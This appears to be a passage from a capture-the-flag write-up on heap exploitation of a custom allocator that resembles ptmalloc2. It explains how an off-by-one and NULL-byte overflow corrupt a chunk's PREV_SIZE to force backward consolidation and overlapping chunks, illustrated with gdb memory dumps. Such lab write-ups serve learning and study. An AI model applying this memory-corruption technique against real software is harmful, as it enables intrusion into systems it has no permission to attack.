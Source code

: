 ```
0x625260:	0x0000000000000008	0x0000000000401d61
0x625270:	0x0000000000000031	0x0000000000000031
```

This is very similar to ptmalloc2() with a few differences:
1. Each chunk, irrespective of the environment, has a PREV_SIZE field set.
2. No concept of classifying chunks based on their size, so even fastbins can get coalesced.
3. No security checks !!

I assume it uses the PREV_SIZE field to check if a chunk can be consolidated backwards or not.

### Vulnerability

There is a one byte overflow along with a NULL byte overflow also when it asks for our data. When, it asks us to rethink,
it asks for one more byte of data. So we can maximise our data usage in a chunk and thus overflow the PREV_SIZE of next chunk.

Attack Vector: Backward Consolidation

This allows us to overlap 2 chunks and thus we can control the metadata chunk. So we overflow with "\x90" byte and then
when we free the next chunk, it will think previous chunk is free and perform consolidation.

```
0x21bd210:	0x0000000000000031	0x0000000000000031
0x21bd220:	0x4141414141414141	0x4141414141414141
0x21bd230:	0x4141414141414141	0x4141414141414141
0x21bd240:	0x0000000000000000	0x0000000000000090 <---SUCCESS
0x21bd250:	0x0000000000000021	0x00000000021bd280    |
0x21bd260:	0x0000000000000008	0x0000000000401d61    |
0x21bd270:	0x0000000000000030	0x0000000000000030    |
0x21bd280:	0x4242424242424242	0x4242424242424242    |
0x21bd290:	0x4242424242424242	0x4242424242424242    |
0x21bd2a0:	0x0000000000000030	0x0000000000000031    |
0x21bd2b0:	0x0000000000000021	0x00000000021bd2e0    |
0x21bd2c0:	0x0000000000000008	0x0000000000401d61    |
0x21bd2d0:	0x0000000000000090	0x0000000000000031<---|
0x21bd2e0:	0x4141414141414141	0x4141414141414141
0x21bd2f0:	0x4141414141414141	0x4141414141414141
```
Now allocate(70 bytes). Lets see if we can get an allocation from this 0x90 chunk without breaking anything.

```
0x21bd240:	0x0000000000000000	0x0000000000000031 
0x21bd250:	0x0000000000000047	0x00000000021bd280
0x21bd260:	0x0000000000000008	0x0000000000401d61
0x21bd270:	0x0000000000000031	0x0000000000000061 <-- SUCCESS
0x21bd280:	0x0a58585858585858	0x4242424242424200
0x21bd290:	0x4242424242424242	0x4242424242424242
0x21bd2a0:	0x0000000000000030	0x0000000000000031
0x21bd2b0:	0x0000000000000021	0x00000000021bd2e0
0x21bd2c0:	0x0000000000000008	0x0000000000401d61
0x21bd2d0:	0x0000000000000061	0x0000000000000031
```
